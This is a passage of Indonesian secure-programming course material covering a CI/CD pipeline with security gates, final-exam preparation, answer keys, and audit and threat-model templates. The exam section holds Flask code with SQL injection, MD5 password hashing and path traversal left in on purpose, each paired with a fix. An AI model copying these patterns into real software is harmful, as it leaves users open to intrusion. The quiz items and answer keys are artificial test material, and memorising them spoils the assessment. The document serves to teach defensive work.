### 4.2 GitHub Actions — CI/CD dengan Security Gates

```yaml
# .github/workflows/security-pipeline.yml
name: Security Pipeline

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

jobs:
  # Gate 1: SAST dengan Semgrep
  sast:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      - name: Run Semgrep
        uses: returntocorp/semgrep-action@v1
        with:
          config: >-
            p/python
            p/owasp-top-ten
            p/secrets
        env:
          SEMGREP_APP_TOKEN: ${{ secrets.SEMGREP_APP_TOKEN }}

  # Gate 2: Secret Scanning
  secret-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0  # Full history untuk scan semua commit
      
      - name: Scan for secrets (Gitleaks)
        uses: gitleaks/gitleaks-action@v2
        env:
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
          GITLEAKS_LICENSE: ${{ secrets.GITLEAKS_LICENSE }}

  # Gate 3: SCA — Dependency Vulnerability
  sca:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      - name: Run Trivy vulnerability scanner
        uses: aquasecurity/trivy-action@master
        with:
          scan-type: 'fs'
          scan-ref: '.'
          format: 'sarif'
          output: 'trivy-results.sarif'
          severity: 'CRITICAL,HIGH'
          exit-code: '1'  # Fail pipeline jika ada Critical/High

      - name: Generate SBOM
        uses: aquasecurity/trivy-action@master
        with:
          scan-type: 'fs'
          format: 'cyclonedx'
          output: 'sbom.cdx.json'
      
      - name: Upload SBOM as artifact
        uses: actions/upload-artifact@v4
        with:
          name: sbom
          path: sbom.cdx.json

  # Gate 4: Build (hanya jika semua gate sebelumnya pass)
  build:
    needs: [sast, secret-scan, sca]  # Tunggu semua gate pass
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      - name: Build Docker image
        run: docker build -t myapp:${{ github.sha }} .
      
      - name: Scan container image
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: myapp:${{ github.sha }}
          severity: 'CRITICAL'
          exit-code: '1'

  # Gate 5: DAST (hanya di deploy ke staging)
  dast:
    needs: [build]
    runs-on: ubuntu-latest
    if: github.ref == 'refs/heads/develop'
    steps:
      - name: OWASP ZAP Baseline Scan
        uses: zaproxy/action-baseline@v0.11.0
        with:
          target: 'http://staging.app.internal'
          fail_action: true
```

### 4.3 Pre-commit Hooks — Shift-Left ke Developer Machine

```yaml
# .pre-commit-config.yaml
repos:
  # Deteksi secret yang tidak sengaja di-commit
  - repo: https://github.com/Yelp/detect-secrets
    rev: v1.4.0
    hooks:
      - id: detect-secrets
        args: ['--baseline', '.secrets.baseline']
  
  # Basic security linting Python
  - repo: https://github.com/PyCQA/bandit
    rev: 1.7.8
    hooks:
      - id: bandit
        args: ["-c", "pyproject.toml"]
  
  # Semgrep (memerlukan instalasi lokal)
  - repo: https://github.com/returntocorp/semgrep
    rev: v1.50.0
    hooks:
      - id: semgrep
        args: ['--config=auto', '--error']
```

```bash
# Install pre-commit hooks di repo
pip install pre-commit
pre-commit install
# Sekarang setiap `git commit` akan menjalankan checks
```

### 4.4 Mengukur Maturitas DevSecOps

**DevSecOps Maturity Model (DSOMM):**

| Level | Karakteristik |
|---|---|
| Level 1 (Awal) | SAST dijalankan manual, tidak rutin; tidak ada security gate |
| Level 2 (Berkembang) | SAST di CI, beberapa gate; SCA ada; DAST manual |
| Level 3 (Didefinisikan) | Semua gate otomatis; SBOM dihasilkan setiap build; DAST di staging |
| Level 4 (Terkelola) | Metrics security; CVE monitoring otomatis; threat model per feature |
| Level 5 (Optimal) | Continuous security testing; self-healing; AI-assisted triage |

---

## 5. Model atau Arsitektur

### 5.1 Pipeline GitHub Actions Lengkap

(Lihat 4.2 di atas untuk kode lengkap)

```mermaid
flowchart LR
    PushPR["Push / PR"] --> Parallel["Parallel Security Gates"]
    Parallel --> G1["Gate 1:\nSAST (Semgrep)\n~5 menit"]
    Parallel --> G2["Gate 2:\nSecret Scan (Gitleaks)\n~2 menit"]
    Parallel --> G3["Gate 3:\nSCA (Trivy)\n~5 menit"]
    
    G1 --> AllPass{"Semua Gate\nLewat?"}
    G2 --> AllPass
    G3 --> AllPass
    
    AllPass -->|Gagal| Notify3["Notifikasi ke Developer\nPR blocked"]
    AllPass -->|Pass| BuildImg["Build + Scan\nContainer Image"]
    BuildImg --> SignImg["Sign Image\n(cosign)"]
    SignImg --> DeployStaging["Deploy ke Staging"]
    DeployStaging --> DAST4["Gate 4:\nZAP Baseline Scan"]
    DAST4 --> ApprovalGate{"Manual Approval\n(Major Release)"}
    ApprovalGate --> Prod3["Deploy Production"]
```

---

## 6. Contoh Terapan

### Studi Kasus: DevSecOps di Fintech Startup

**Sebelum DevSecOps:** Deploy 2× seminggu, penetration test sekali setahun, rata-rata 45 hari untuk fix kerentanan setelah ditemukan.

**Setelah DevSecOps (6 bulan):**
- Pipeline: SAST + SCA + Container scan di setiap PR (automated)
- DAST baseline setiap deploy ke staging
- SBOM dihasilkan setiap release
- Security metrics dashboard: MTTD (Mean Time to Detect), MTTR (Mean Time to Remediate)

**Hasil Terukur:**
- MTTD turun dari 90 hari → 2 hari (kerentanan ditemukan di PR, bukan di produksi)
- MTTR turun dari 45 hari → 8 hari
- 0 critical CVE di production selama 4 bulan terakhir
- False positive SAST: 23% (dikelola dengan suppress rules)
- Developer satisfaction: awalnya resistensi, setelah 3 bulan 80% menganggap tools membantu

---

## 7. Praktikum — Implementasi CI/CD Pipeline dengan Security Gates

**Tujuan:** Membuat GitHub Actions workflow dengan security gates.

**Prasyarat:** GitHub account, repository Python Flask sample

**Tugas:**
1. Fork repository `python-vulnerable-app` (disediakan dosen — tidak ada akses eksternal)
2. Buat file `.github/workflows/security.yml`
3. Integrasikan: Semgrep, Trivy (SCA), secret scanning
4. Buat PR dengan kode yang mengandung kerentanan → verifikasi pipeline memblokir
5. Fix kerentanan → verifikasi PR bisa di-merge
6. Dokumentasikan: pipeline log sebelum dan sesudah fix

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Security gate di tahap "pre-commit" bertujuan untuk:
A. Menggantikan code review manusia  
B. Mendeteksi masalah keamanan sebelum kode bahkan dipush ke repository  
C. Menjalankan full penetration test di mesin lokal  
D. Generate SBOM setiap developer membuat commit

**Soal 2 (Analisis):** Mengapa menjalankan DAST Full Scan di setiap PR (bukan hanya di staging) tidak disarankan? Apa alternatif yang lebih seimbang?

**Soal 3 (Desain):** Bagaimana Anda menangani situasi di mana security gate (misalnya Trivy SCA) memblokir release karena CVE dalam dependency, tetapi patch belum tersedia dari vendor? Apa opsi yang ada dan risk appetite apa yang menentukan pilihan?

**Soal 4 (Kode):** Tulis pre-commit hook script (bash) yang mencegah commit jika file Python mengandung string `password` atau `secret` diikuti `=` dan string literal (pola hardcoded credential sederhana).

**Soal 5 (Evaluasi):** Metric apa yang sebaiknya digunakan untuk mengukur keberhasilan program DevSecOps? Jelaskan setidaknya 3 metric dan bagaimana mengumpulkan datanya.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Migrasi ke DevSecOps di Perusahaan Asuransi

Perusahaan asuransi besar dengan sistem legacy Java (15 tahun), 80 developer, 200+ repository. Saat ini: tidak ada SAST otomatis, penetration test setahun sekali, deployment manual dengan approval multi-level yang memakan 2 minggu.

**Pertanyaan:**
1. **Roadmap DevSecOps (C4)**: Rancang roadmap 12 bulan untuk transformasi DevSecOps. Prioritaskan berdasarkan: quick wins (nilai tinggi, usaha rendah), security risk yang paling tinggi, dan kapasitas tim untuk perubahan. Untuk setiap kuartal: tujuan konkret, tool yang diimplementasikan, dan metric keberhasilan.

2. **Change Management (C5)**: Developer senior di tim sangat skeptis terhadap DevSecOps: "Ini hanya akan membuat deployment lebih lambat tanpa menambah nilai nyata." Bagaimana Anda membangun business case dan memenangkan dukungan? Pertimbangkan: data dari insiden masa lalu, biaya kepatuhan regulasi (OJK/POJK), dan insentif bagi developer untuk mengadopsi praktik baru.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B:** Pre-commit hooks beroperasi di mesin lokal developer, sebelum kode bahkan dikirim ke repository. Tujuannya adalah "shift-left" maksimal — feedback instan kepada developer saat masalah paling mudah dan murah untuk diperbaiki. Pre-commit tidak menggantikan code review (A), tidak melakukan penetration test (C), dan SBOM generation lebih tepat di CI/CD (D).

**Soal 2:** DAST Full Scan tidak cocok di setiap PR karena: (a) memakan waktu 30-120 menit — membuat feedback loop sangat lambat; (b) memerlukan live environment (staging) yang mungkin tidak tersedia per-PR; (c) active scan berisiko memodifikasi data test. Alternatif seimbang: DAST Baseline (passive only) di setiap PR (<5 menit), DAST Full Scan dijadwalkan nightly di staging, DAST Full Scan manual sebelum major release.

---

## 11. Ringkasan Bab

DevSecOps mengintegrasikan keamanan ke dalam setiap tahap pipeline CI/CD sebagai "security gate" — kondisi yang harus dipenuhi sebelum kode dapat berlanjut ke tahap berikutnya. Urutan gate yang optimal: SAST + Secret Scan + SCA (parallel, di PR) → Container Scan (di build) → DAST Baseline (di staging) → Manual Approval (sebelum release ke produksi). Metric kunci: MTTD, MTTR, dan jumlah kerentanan yang ditemukan di setiap tahap (tujuan: temukan sebanyak mungkin di tahap awal).

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** DevSecOps membutuhkan kolaborasi antara tim Development, Security, dan Operations yang seringkali memiliki prioritas yang berbeda (kecepatan vs keamanan vs stabilitas). Bagaimana Anda membangun model kolaborasi yang menghargai perspektif ketiga tim ini? Apa yang bisa dipelajari dari framework Site Reliability Engineering (SRE) dalam hal ini?

**Pertanyaan Refleksi 2:** Pipeline keamanan mengumpulkan banyak data tentang kode dan aktivitas developer. Data ini sensitif: bisa mengekspos kerentanan belum-dipatch (jika bocor), dan bisa digunakan untuk memantau produktivitas developer. Bagaimana Anda mengelola data pipeline keamanan secara etis — siapa yang boleh akses, berapa lama disimpan, dan bagaimana mencegah penyalahgunaan?

---

# BAB 16 — UAS: PRAKTIK KOMPREHENSIF DEVSECOPS DAN SECURE SDLC

**Pertemuan:** 16  
**Sub-CPMK:** Sub-CPMK.5  
**CPMK:** CPMK.1, CPMK.2, CPMK.3, CPMK.4  
**Evaluasi:** Eval-6 UAS (35%)

---

## 1. Capaian Pembelajaran Bab

Bab ini adalah persiapan dan referensi untuk Ujian Akhir Semester (UAS) yang mengevaluasi penguasaan komprehensif seluruh mata kuliah. Mahasiswa mampu:

- Mengintegrasikan semua konsep Secure Programming dari Bab 1-15 ke dalam analisis sistem nyata.
- Merancang program keamanan software end-to-end: dari threat modeling → secure coding → testing → monitoring.
- Menganalisis sistem yang ada, mengidentifikasi kerentanan multi-layer, dan memprioritaskan remediasi.
- Memproduksi laporan teknis keamanan yang profesional dan dapat ditindaklanjuti.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    UAS2["UAS Secure Programming\nIntegrasi Komprehensif"] --> Integration["Integrasi Kompetensi"]
    
    Integration --> C1["C1 — Knowledge:\nDasar SSDLC, OWASP, CWE"]
    Integration --> C2["C2 — Comprehension:\nMemahami mekanisme kerentanan"]
    Integration --> C3["C3 — Application:\nMenerapkan mitigasi dalam kode"]
    Integration --> C4b["C4 — Analysis:\nMenganalisis sistem kompleks"]
    Integration --> C5b["C5 — Synthesis:\nMerancang program keamanan"]
    
    UAS2 --> Components["Komponen UAS"]
    Components --> Komponen1["Bagian A (30%):\nAudit Kode — identifikasi\nsemua kerentanan dalam sistem\nyang diberikan"]
    Components --> Komponen2["Bagian B (30%):\nThreat Modeling — buat DFD\n& STRIDE untuk sistem baru"]
    Components --> Komponen3["Bagian C (25%):\nRancang pipeline DevSecOps\nlengkap untuk sistem tersebut"]
    Components --> Komponen4["Bagian D (15%):\nLaporan eksekutif — ringkas\ntemuan & rekomendasi"]
```

---

## 3. Pengantar Kontekstual

UAS Secure Programming adalah simulasi audit keamanan software nyata. Mahasiswa mendapat paket soal berisi: spesifikasi sistem (arsitektur + kode sumber), skenario bisnis, dan konteks risiko. Dalam 3 jam, mahasiswa harus menganalisis, memodelkan ancaman, merancang pengujian, dan menyusun rekomendasi — persis seperti yang dilakukan secure software engineer profesional.

---

## 4. Landasan Teori

### 4.1 Sintesis Komprehensif: Framework Secure Software Engineering

Seluruh mata kuliah dapat dirangkum dalam empat pilar:

```
Pilar 1 — DESIGN
• Threat Modeling (STRIDE)
• Secure Design Patterns
• OBE: CPMK.3, CPMK.4

Pilar 2 — CODE  
• Secure Coding Principles
• Kerentanan & Mitigasi (OWASP, CWE)
• OBE: CPMK.1, CPMK.2

Pilar 3 — TEST
• SAST, DAST, SCA, Code Review
• Security Gate di CI/CD
• OBE: CPMK.2, CPMK.3

Pilar 4 — OPERATE
• DevSecOps Pipeline
• SBOM & Supply Chain
• Monitoring & Incident Response
• OBE: CPMK.3, CPMK.4
```

### 4.2 Peta Keterkaitan Bab → Evaluasi Nyata

| Bab | Topik | Kerentanan | Tool/Framework | Evaluasi |
|---|---|---|---|---|
| 1 | SSDLC & Prinsip | Security by Design | OWASP SAMM, NIST SSDF | UAS — Bagian C |
| 2 | OWASP Top 10 & API | A01-A10, API1-10 | OWASP resources | UTS + UAS — Bagian A |
| 3 | CWE Top 25 | CWE-787, CWE-79, ... | NVD, CVE | UTS + UAS — Bagian A |
| 4 | Memory Vulnerabilities | BOF, UAF, Format String | Valgrind, ASan | UTS |
| 5 | Injection Attacks | SQLi, CMDi, NoSQLi | OWASP ZAP, sqlmap-edu | UTS |
| 6 | XSS, CSRF, SSRF | CWE-79, CWE-352, CWE-918 | ZAP, Burp | UTS |
| 7 | Auth & Session | JWT, OAuth | OWASP ASVS | UTS |
| 8 | UTS | Integrasi 1-7 | — | UTS |
| 9 | API Security | BOLA, Mass Assign | OWASP API | UAS — Bagian A |
| 10 | SAST | Taint analysis | SonarQube, Semgrep, CodeQL | UAS — Bagian C |
| 11 | DAST | Black-box testing | OWASP ZAP | UAS — Bagian C |
| 12 | SCA + SBOM | Supply Chain | Trivy, Syft | UAS — Bagian C |
| 13 | Threat Modeling | STRIDE, DFD | Threat Dragon | UAS — Bagian B |
| 14 | Code Review + Patterns | Fail Secure, Least Priv | Checklist | UAS — Bagian A |
| 15 | DevSecOps CI/CD | Security Gates | GitHub Actions | UAS — Bagian C |
| 16 | UAS | Komprehensif | — | UAS |

---

## 5. Model atau Arsitektur

### 5.1 End-to-End Secure Software Engineering

```mermaid
flowchart TD
    Req2["Requirements &\nDesain"] --> TM["Threat Modeling\nSTRIDE + DFD\n(Bab 13)"]
    TM --> SecReq["Security Requirements\n(Bab 1, 2)"]
    SecReq --> SecCode["Secure Coding\nOWASP Top 10, CWE, Patterns\n(Bab 2-7, 9, 14)"]
    SecCode --> PreCommit2["Pre-commit\nHooks\n(Bab 15)"]
    PreCommit2 --> PR3["Pull Request\nSAST + SCA + Secret Scan\n(Bab 10, 12, 15)"]
    PR3 --> Review4["Peer Code\nReview\n(Bab 14)"]
    Review4 --> Build3["Build &\nContainer Scan\n(Bab 12, 15)"]
    Build3 --> Staging2["Deploy Staging\nDAST + Integration Test\n(Bab 11, 15)"]
    Staging2 --> SBOM4["SBOM Generation\n& Sign\n(Bab 12, 15)"]
    SBOM4 --> Prod4["Deploy\nProduction"]
    Prod4 --> Monitor2["Monitor &\nAlert\nCVE Feed, SIEM"]
    Monitor2 -->|"New CVE\nor Threat"| Req2
```

---

## 6. Contoh Terapan

### Soal Simulasi UAS Lengkap

**Sistem yang Diaudit:** Platform e-learning dengan fitur: autentikasi, upload materi kursus, forum diskusi, quiz online, dan pembayaran.

**Kode yang Disediakan (sampel):**
```python
# auth.py
from flask import Flask, request, session
import hashlib, sqlite3

@app.route('/login', methods=['POST'])
def login():
    u = request.form['user']
    p = request.form['pass']
    db = sqlite3.connect('elearn.db')
    # [Issue A]
    row = db.execute(f"SELECT * FROM users WHERE username='{u}' AND password='{hashlib.md5(p.encode()).hexdigest()}'").fetchone()
    if row:
        session['uid'] = row[0]
        session['role'] = row[4]
    return redirect('/')

# quiz.py
@app.route('/quiz/<int:quiz_id>/submit', methods=['POST'])
@login_required
def submit_quiz(quiz_id):
    # [Issue B]
    answers = request.json
    quiz = db.query(Quiz).get(quiz_id)
    # Check all answers
    score = calculate_score(answers, quiz.answer_key)
    # [Issue C] — Tidak ada cek apakah mahasiswa sudah submit sebelumnya
    result = QuizResult(user_id=session['uid'], quiz_id=quiz_id, score=score)
    db.session.add(result)
    db.session.commit()
    return jsonify({"score": score})

# upload.py  
@app.route('/upload/material', methods=['POST'])
@login_required
def upload_material():
    file = request.files['file']
    # [Issue D]
    filename = file.filename
    file.save(f'/app/uploads/{filename}')
    return jsonify({"path": f'/uploads/{filename}'})
```

**Bagian A — Audit Kode:**
Identifikasi semua kerentanan (Issue A-D + kerentanan lain yang mungkin ada):

| Issue | Kerentanan | CWE | OWASP | CVSS (estimasi) |
|---|---|---|---|---|
| A | SQL Injection + MD5 password | CWE-89, CWE-327 | A03, A02 | 9.8 / 9.1 |
| B | Missing BOLA — cek kepemilikan quiz | CWE-862 | A01 | 7.5 |
| C | Race condition / business logic — submit berulang | CWE-362 | A04 | 6.5 |
| D | Path Traversal + Unrestricted Upload | CWE-22, CWE-434 | A01, A05 | 9.1 |

**Remediasi per Issue:**

Issue A:
```python
# Fix A1: Parameterized query
row = db.execute(
    "SELECT * FROM users WHERE username=? AND is_active=1",
    (u,)
).fetchone()

# Fix A2: Verifikasi password dengan bcrypt
if row and bcrypt.checkpw(p.encode(), row['password_hash'].encode()):
    session['uid'] = row['id']
```

Issue D:
```python
import os
from werkzeug.utils import secure_filename

ALLOWED_EXTENSIONS = {'pdf', 'pptx', 'docx', 'mp4'}
UPLOAD_FOLDER = '/app/uploads'

def upload_material():
    file = request.files['file']
    filename = secure_filename(file.filename)  # Sanitize filename
    
    # Validasi ekstensi
    ext = filename.rsplit('.', 1)[-1].lower()
    if ext not in ALLOWED_EXTENSIONS:
        return jsonify({"error": "File type not allowed"}), 400
    
    # Randomize filename untuk mencegah enumeration
    import uuid
    safe_name = f"{uuid.uuid4()}.{ext}"
    file.save(os.path.join(UPLOAD_FOLDER, safe_name))
```

---

## 7. Praktikum — Simulasi Audit Komprehensif

**Format UAS Praktis:**
Mahasiswa mendapatkan repository kode (disediakan dosen, bukan sistem nyata) dan harus dalam waktu 3 jam:

1. **Audit kode** — identifikasi semua kerentanan (manual + SAST jika diizinkan)
2. **Threat model** — buat DFD dan identifikasi 5 ancaman STRIDE
3. **Rancang pipeline** — tulis konfigurasi CI/CD dengan security gates (format GitHub Actions atau equivalent)
4. **Laporan eksekutif** — 1 halaman ringkasan untuk CISO: temuan kritis, risiko, rekomendasi prioritas

---

## 8. Latihan Pemahaman

**Soal Review UAS 1 (PG):** Kerentanan "Unrestricted File Upload" (CWE-434) dapat menyebabkan RCE jika:
A. File yang diupload berukuran terlalu besar  
B. Server mengeksekusi file yang diupload (misalnya PHP, Python, shell script)  
C. File yang diupload mengandung malware yang berjalan di browser pengguna lain  
D. Server menyimpan file di direktori yang salah

**Soal Review UAS 2 (Analisis):** Dalam sistem quiz online, apa ancaman "Repudiation" yang paling relevan? Bagaimana mitigasinya?

**Soal Review UAS 3 (Sintesis):** Sebuah sistem akan diaudit sebelum go-live. Waktu tersedia: 1 hari. Anda harus memilih 3 dari 5 aktivitas berikut: (a) SAST, (b) DAST, (c) SCA, (d) Threat Modeling, (e) Penetration Testing manual. Justifikasikan pilihan Anda berdasarkan coverage, biaya, dan waktu.

---

## 9. Latihan Terapan — Soal UAS Penuh

### UAS Komprehensif: Audit Sistem Fintech

Diberikan sistem fintech (peer-to-peer lending) dengan komponen:
- Frontend (React)
- REST API (Python FastAPI)
- Database (PostgreSQL)
- Queue (Redis)
- Autentikasi (JWT + OAuth Google)
- Notifikasi (email + SMS via third-party API)

Dalam 3 jam (UAS):

**Bagian A (30%):** Audit kode yang disediakan → identifikasi kerentanan → klasifikasi OWASP + CWE + CVSS → rekomendasi remediasi

**Bagian B (30%):** Buat threat model STRIDE → DFD Level 1 → 6 ancaman dengan skor DREAD → 3 mitigasi prioritas tinggi → strategi penanganan (mitigate/transfer/accept) untuk masing-masing

**Bagian C (25%):** Rancang pipeline DevSecOps: pre-commit hooks, CI gates (SAST/SCA/Secret Scan), staging DAST, artifact signing, IaC scanning → berikan konfigurasi GitHub Actions untuk minimal 3 gates

**Bagian D (15%):** Laporan eksekutif (maks. 1 halaman): ringkasan risiko, 3 kerentanan paling kritis, dampak bisnis, rekomendasi, timeline remediasi yang realistis

---

## 10. Kunci Jawaban — Soal Review UAS

**Soal 1 — B:** Unrestricted File Upload menjadi RCE ketika server mengeksekusi file yang diupload. Contoh: upload `malicious.php` ke server Apache dengan PHP diaktifkan → akses via browser → PHP dieksekusi sebagai server process → command execution. Mitigasi: (1) validasi MIME type + ekstensi (whitelist), (2) simpan di lokasi non-executable, (3) rename file ke hash random, (4) scan dengan antivirus.

**Soal 3:** Pilihan optimal untuk 1 hari sebelum go-live: (a) SAST, (c) SCA, (b) DAST. Reasoning: SAST (a) dapat mendeteksi banyak kerentanan kode dalam waktu singkat; SCA (c) cepat dan mengidentifikasi dependency vulnerability yang seringkali sangat kritis; DAST (b) baseline dapat dijalankan paralel. Threat Modeling (d) seharusnya sudah dilakukan lebih awal — sehari sebelum go-live terlambat untuk redesign. Penetration Testing manual (e) valuable tapi memerlukan lebih dari 1 hari untuk hasil yang meaningful.

---

## 11. Ringkasan Bab

Bab 16 mengintegrasikan seluruh mata kuliah dalam kerangka four-pillar: Design (Threat Modeling), Code (Secure Coding), Test (SAST/DAST/SCA/Review), Operate (DevSecOps/Monitoring). UAS menguji kemampuan mahasiswa untuk mengaplikasikan semua pilar ini pada sistem nyata dalam format audit komprehensif yang mencerminkan pekerjaan secure software engineer profesional.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Setelah menyelesaikan mata kuliah ini, refleksikan: apa aspek secure programming yang paling menantang untuk diimplementasikan dalam praktik nyata? Apa kesenjangan antara teori yang dipelajari dan kenyataan di lapangan yang perlu Anda antisipasi?

**Pertanyaan Refleksi 2:** Secure programming adalah disiplin yang terus berkembang — kerentanan baru ditemukan setiap hari, paradigma baru (AI-generated code, cloud-native, WebAssembly) membawa tantangan baru. Bagaimana Anda membangun kompetensi yang berkelanjutan setelah lulus? Komunitas, sertifikasi, dan sumber daya apa yang akan Anda andalkan?

---


---

# LAMPIRAN

---

## LAMPIRAN A — TEMPLATE LAPORAN PRAKTIKUM

```
LAPORAN PRAKTIKUM SECURE PROGRAMMING
=====================================
Mata Kuliah   : Secure Programming (VSFDKS04)
Praktikum ke  : ___
Judul         : _______________________________________________
Tanggal       : _______________________________________________
Nama          : _______________________________________________
NIM           : _______________________________________________

1. TUJUAN PRAKTIKUM
   ________________________________________________________________

2. LINGKUNGAN LAB
   OS          : _______________________________________________
   Tools       : _______________________________________________
   Target      : localhost / WebGoat / DVWA / Juice Shop
   Version     : _______________________________________________

3. PERNYATAAN ETIKA
   Saya menyatakan bahwa semua aktivitas dalam praktikum ini dilakukan
   pada sistem yang diotorisasi untuk tujuan pembelajaran, tidak melibatkan
   sistem nyata, dan tidak melanggar hukum yang berlaku.
   Tanda Tangan: _______________

4. LANGKAH KERJA
   4.1 [Langkah 1]
       Deskripsi: _____________________________________________
       Screenshot/Output: [lampirkan]
   
   4.2 [Langkah 2] ...

5. TEMUAN
   | No | Kerentanan | CWE | Severity | Evidence |
   |----|------------|-----|----------|----------|
   |    |            |     |          |          |

6. ANALISIS
   [Jelaskan: mekanisme kerentanan, mengapa kode rentan, 
   bagaimana penyerang dapat mengeksploitasinya dalam konteks lab]

7. MITIGASI YANG DITERAPKAN
   [Kode sebelum dan sesudah perbaikan, penjelasan mengapa ini aman]

8. KESIMPULAN
   ________________________________________________________________

9. REFERENSI
   ________________________________________________________________
```

---

## LAMPIRAN B — TEMPLATE LAPORAN KERENTANAN (VULNERABILITY REPORT)

```
VULNERABILITY REPORT
=====================
Report ID     : VR-YYYY-XXXX
Tanggal       : _______________
Sistem        : _______________________________________________
Reporter      : _______________________________________________
Severity      : □ Critical  □ High  □ Medium  □ Low  □ Informational
Status        : □ Open  □ In Progress  □ Fixed  □ Accepted Risk

EXECUTIVE SUMMARY
-----------------
[1-2 kalimat: apa kerentanannya dan apa dampak bisnisnya]

TECHNICAL DETAILS
-----------------
1. Deskripsi Kerentanan
   ________________________________________________________________

2. Klasifikasi
   - OWASP Category : _______________
   - CWE            : CWE-___
   - CVSS Score     : ___ (___) [Vector: ___]

3. Langkah Reproduksi (dalam lab yang diotorisasi)
   Step 1: ________________________________________________________
   Step 2: ________________________________________________________
   Step 3: ________________________________________________________

4. Evidence
   [Screenshot, log, request/response yang relevan]

5. Dampak
   - Dampak pada CIA : Confidentiality: ___ / Integrity: ___ / Availability: ___
   - Dampak Bisnis   : _______________________________________________
   - Pengguna Terdampak: _______________

6. Rekomendasi Remediasi
   - Immediate (< 24 jam): ________________________________________
   - Short-term (< 1 minggu): _____________________________________
   - Long-term: ___________________________________________________

7. Referensi
   - OWASP: ___
   - CWE: ___
   - CVE (jika relevan): ___

TIMELINE
--------
Tanggal Ditemukan : _______________
Dilaporkan ke Tim : _______________
Target Fix        : _______________
Actual Fix        : _______________
Verified Fixed    : _______________
```

---

## LAMPIRAN C — TEMPLATE THREAT MODEL

```
THREAT MODEL DOCUMENT
======================
Sistem        : _______________________________________________
Versi         : _______________________________________________
Tanggal       : _______________________________________________
Tim           : _______________________________________________
Review Berikutnya: _______________________________________________

1. SISTEM OVERVIEW
   [Deskripsi singkat sistem, tujuan bisnis, teknologi]

2. ASET YANG DILINDUNGI
   | Aset | Nilai | Klasifikasi |
   |------|-------|-------------|
   |      |       |             |

3. DATA FLOW DIAGRAM (DFD) LEVEL 1
   [Diagram atau deskripsi terstruktur]
   
   External Entities:
   - [Name]: [Deskripsi]
   
   Processes:
   - (1) [Name]: [Fungsi]
   
   Data Stores:
   - ||[Name]||: [Isi data]
   
   Trust Boundaries:
   - [TB1]: [Deskripsi batas]

4. ANALISIS ANCAMAN (STRIDE)
   | ID | Elemen DFD | Kategori | Ancaman | DREAD | Status |
   |----|------------|----------|---------|-------|--------|
   |    |            |          |         |       |        |
   
   DREAD Scoring:
   D (Damage), R (Reproducibility), E (Exploitability), 
   A (Affected Users), D (Discoverability): masing-masing 1-10

5. MITIGASI
   | ID Ancaman | Strategi | Kontrol | Owner | Deadline |
   |------------|----------|---------|-------|----------|
   |            |          |         |       |          |

6. RESIDUAL RISK
   [Ancaman yang diterima (Accept) dengan justifikasi dan approver]

7. REVIEW HISTORY
   | Tanggal | Reviewer | Perubahan |
   |---------|----------|-----------|
   |         |          |           |
```

---

## LAMPIRAN D — SECURITY CODE REVIEW CHECKLIST

```
SECURITY CODE REVIEW CHECKLIST
================================
Reviewer      : _______________________________________________
Repository    : _______________________________________________
PR/Branch     : _______________________________________________
Tanggal       : _______________________________________________

AUTHENTICATION & SESSION
□ Password disimpan dengan bcrypt/Argon2 (bukan MD5/SHA1)
□ Session token dibuat dengan kriptografi yang kuat (secrets.token_urlsafe)
□ Session diinvalidasi pada logout
□ Session dirotasi setelah login berhasil
□ JWT: algoritma dikunci, exp ada, secret kuat
□ Rate limiting pada endpoint login
□ Tidak ada hardcoded credentials

AUTHORIZATION
□ Setiap endpoint yang membutuhkan auth memiliki decorator/middleware
□ BOLA: setiap akses resource diverifikasi kepemilikannya
□ Mass assignment: whitelist field yang bisa diubah
□ Privilege check konsisten di semua layer (tidak hanya frontend)

INPUT VALIDATION & OUTPUT ENCODING
□ Semua input divalidasi di server-side (bukan hanya client-side)
□ SQL: parameterized query atau ORM (tidak ada string concatenation)
□ OS Command: shell=False dengan list args
□ HTML output: di-escape/di-encode sesuai konteks
□ File upload: validasi ekstensi (whitelist) dan MIME type
□ Path traversal: validasi dan normalisasi path
□ JSON: validasi schema (Pydantic/marshmallow)

CRYPTOGRAPHY
□ Algoritma yang digunakan: AES-256-GCM, ChaCha20, RSA-2048+, ECDSA
□ Tidak ada MD5/SHA1 untuk integritas atau password
□ Random number: menggunakan secrets atau os.urandom (bukan random)
□ TLS: tidak ada SSLv3/TLSv1/TLSv1.1, tidak verify_ssl=False

ERROR HANDLING & LOGGING
□ Error message tidak mengekspos stack trace, nama tabel, atau path internal
□ Security events di-log: login (sukses/gagal), perubahan password, aksi admin
□ Log tidak menyimpan: password, token, nomor kartu, data sensitif
□ Exception handling: fail secure (bukan fail open)

DEPENDENCIES
□ Tidak ada dependency baru yang belum di-approve
□ Tidak ada dependency dengan CVE Critical/High yang diketahui
□ Versi dependency di-pin (bukan >=)

REVIEW RESULT
□ Approved (tidak ada issue)
□ Approved with minor comments (tidak memblokir merge)
□ Changes Requested (ada issue yang harus diperbaiki sebelum merge)

Catatan:
________________________________________________________________
```

---

## LAMPIRAN E — TEMPLATE SECURITY TESTING PLAN

```
SECURITY TESTING PLAN
======================
Sistem        : _______________________________________________
Release       : _______________________________________________
Lingkungan    : □ Development  □ Staging  □ Production
Tanggal       : _______________
Tim Penguji   : _______________________________________________

OTORISASI
---------
Pemilik Sistem  : _______________________________________________
Otorisasi Testing oleh: _______________________________________________
Lingkup Testing : _______________________________________________
Di LUAR Lingkup: _______________________________________________

Saya menyatakan bahwa pengujian ini dilakukan atas izin eksplisit
pemilik sistem dan dalam lingkup yang telah disepakati.
Tanda Tangan   : _______________________________________________

RENCANA PENGUJIAN
-----------------
| No | Aktivitas | Tool | Target | Durasi | Approval | Status |
|----|-----------|------|--------|--------|----------|--------|
| 1  | SAST      | Semgrep | Source code | 30 mnt | Auto | |
| 2  | SCA       | Trivy | requirements.txt | 15 mnt | Auto | |
